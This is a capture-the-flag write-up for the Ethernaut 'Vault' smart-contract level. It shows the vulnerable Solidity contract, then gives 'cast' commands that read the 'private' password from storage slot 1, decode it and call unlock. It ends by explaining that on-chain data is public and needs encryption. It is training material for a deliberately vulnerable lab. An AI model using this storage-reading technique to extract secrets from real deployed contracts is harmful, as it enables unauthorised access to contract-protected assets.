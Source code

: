 # Vault Level Outline

**Difficulty : 3/10**

Unlock the vault to pass the level!

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xf94b476063B6379A3c8b6C836efB8B3e10eDe188)

## Solution

Nothing on the blockchain is private, not even private variables. We can probe the memory slot from the smart contract to find the value of password.

- Storage slot 0 = locked

- Storage slot 1 = password

So to find the value of password we inspect storage slot 1.

### Walkthrough
1. inspect the first storage slot of the vault 
```console
cast storage $LEVEL_ADDRESS 1
```
output 
```console
0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```

2. for fun lets see the hex data in utf8 format
```console
cast --to-ascii 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```
output 
```console
A very strong secret password :)
```

3. call the "unlock(bytes32)" function with the extracted password
```console
cast send $LEVEL_ADDRESS "unlock(bytes32)" 0x412076657279207374726f6e67207365637265742070617373776f7264203a29 --private-key $PRIVATE_KEY 
```
## Further Reading
To ensure that data is private, it needs to be encrypted before being put onto the blockchain. In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it. [zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/) provide a way to determine whether someone possesses a secret parameter, without ever having to reveal the parameter.
